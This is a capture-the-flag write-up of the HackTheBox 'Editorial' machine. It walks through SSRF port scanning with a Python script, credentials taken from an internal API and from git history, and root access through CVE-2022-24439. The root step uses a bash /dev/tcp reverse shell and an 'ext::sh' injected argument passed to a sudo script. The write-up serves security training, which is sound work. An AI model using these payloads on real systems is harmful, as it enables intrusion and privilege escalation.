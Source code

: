 ```yaml
---

layout: post
title: "Practice Writeup: Exploiting SSRF and Privilege Escalation in Editorial"
author: "0x5t"
catalog: true
header-img: "img/post-bg-digital-native.jpg"
header-mask: 0.4
tags:

- Web Exploitation
- SSRF
- Privilege Escalation
- Git Enumeration
- HackTheBox

---
```


# Editorial Writeup

## Overview

**Machine Name:** Editorial\
**Date:** 10th Oct 2024\
**Difficulty:** Easy\

## Synopsis

The **Editorial** machine is an **easy** Linux-based challenge featuring a publishing web application vulnerable to **Server-Side Request Forgery (SSRF)**. The vulnerability is exploited to access an internal API, which reveals credentials leading to **SSH access**. Further enumeration discloses a **Git repository** containing credentials for another user. Root access is achieved via **CVE-2022-24439** and **sudo misconfigurations**.

## Skills Required

- Linux Command Line
- Web Enumeration
- Basic Scripting

## Skills Learned

- Server-Side Request Forgery (SSRF)
- Git Enumeration
- Basic Scripting

---

## Enumeration

### Nmap Scan

Scanning the target reveals **two open ports**:

- **Port 22** - SSH (OpenSSH 8.9p1 Ubuntu)
- **Port 80** - Nginx Web Server

#### Nmap Command:

```bash
nmap -p- --min-rate=1000 -T4 -Pn 10.10.11.20
```

Adding the domain to `/etc/hosts`:

```bash
echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts
```

### HTTP Enumeration

Visiting **[http://editorial.htb](http://editorial.htb)**, we find a **publishing service website** with a "Publish with us" page that includes a **cover URL** field.

#### SSRF Exploitation

Testing for SSRF by inputting a **local IP address** and starting a Netcat listener:

```bash
nc -lnvp 5555
```

A successful **200 OK** response and Netcat callback confirm **SSRF vulnerability**.

---

## Foothold

### Internal Service Discovery

Using **Burp Suite Intruder** with a **common HTTP ports wordlist**, we identify an **internal API running on port 5000**. We then use a **Python script** to fuzz all **65535 ports**:

```python
import requests
for port in range(1, 65535):
    data_post = {"bookurl": f"http://127.0.0.1:{port}"}
    try:
        r = requests.post("http://editorial.htb/upload-cover", data=data_post)
        if not r.text.strip().endswith('.jpeg'):
            print(f"{port} --- {r.text}")
    except:
        pass
```

**Findings:** Port **5000** does not return `.jpeg` responses, indicating an API endpoint.

### Extracting Credentials

By querying the API at `/api/latest/metadata/messages/authors`, we retrieve **login credentials** for `dev`:

```json
{
  "Username": "dev",
  "Password": "dev080217_devAPI!@"
}
```

### SSH Access

```bash
ssh dev@10.10.11.20
```

User flag retrieved.

---

## Lateral Movement

### Git Repository Enumeration

In the `dev` home directory, we find a `.git` folder. Checking commit history:

```bash
git log
git show <commit-id>
```

We extract new credentials for user `prod`:

```json
{
  "Username": "prod",
  "Password": "080217_Producti0n_2023!@"
}
```

Switching users:

```bash
su prod
```

### Sudo Privileges Check

```bash
sudo -l
```

The `prod` user has **root execution rights** for:

```bash
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

---

## Privilege Escalation

### Exploiting CVE-2022-24439

This script imports the `Repo` class from **GitPython**, making it vulnerable to **CVE-2022-24439**.

#### Crafting the Exploit

Creating a **reverse shell payload**:

```bash
echo "bash -i >& /dev/tcp/{{IP}}/{{PORT}} 0>&1" > /tmp/shell.sh
chmod +x /tmp/shell.sh
```

Starting a **Netcat listener**:

```bash
nc -lnvp 4444
```

Executing the **privileged Python script**:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```

This grants a **root shell**.

### Root Flag

```bash
cat /root/root.txt
```

**Root access achieved. Machine pwned!** 🎉

---

## Summary

1. **SSRF** was used to enumerate internal services.
2. **API exploitation** revealed `dev` user credentials.
3. **Git enumeration** disclosed `prod` user credentials.
4. **CVE-2022-24439** was leveraged for **privilege escalation**.
5. **Root access** was gained via **sudo misconfiguration**.

**Lessons Learned:**

- Importance of **restricting internal APIs**.
- **SSRF vulnerabilities** can expose sensitive data.
- **Git repositories** should not store credentials.
- **Improper sudo configurations** can lead to privilege escalation.

---

## Additional Resources

- [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)
- [Git Security Best Practices](https://git-scm.com/docs/git-security)
- [Burp Suite Intruder Guide](https://portswigger.net/burp/documentation/desktop/tools/intruder)

### End of Writeup ✅

